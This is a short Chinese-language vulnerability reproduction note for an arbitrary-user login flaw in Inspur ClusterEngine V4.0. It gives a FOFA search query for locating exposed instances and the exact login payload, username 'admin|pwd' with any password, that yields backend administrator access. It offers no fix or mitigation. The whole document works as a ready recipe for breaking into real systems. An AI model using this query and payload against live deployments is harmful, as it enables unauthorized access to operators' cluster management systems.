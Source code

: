# 浪潮ClusterEngineV4.0 任意用户登录漏洞

## 漏洞描述

浪潮ClusterEngineV4.0 存在任意用户登录漏洞，构造恶意的用户名和密码即可获取后台权限

## 漏洞影响

> [!NOTE]
>
> 浪潮ClusterEngineV4.0

## FOFA

> [!NOTE]
>
> title="TSCEV4.0"

## 漏洞复现

登录页面如下

![](resource/浪潮ClusterEngineV4.0-任意用户登录漏洞/media/1.png)

```
USER： admin|pwd
PASS:  任意
```

成功登陆后台

> [!NOTE]
>
> 部分功能是无法使用的

![](resource/浪潮ClusterEngineV4.0-任意用户登录漏洞/media/2.png)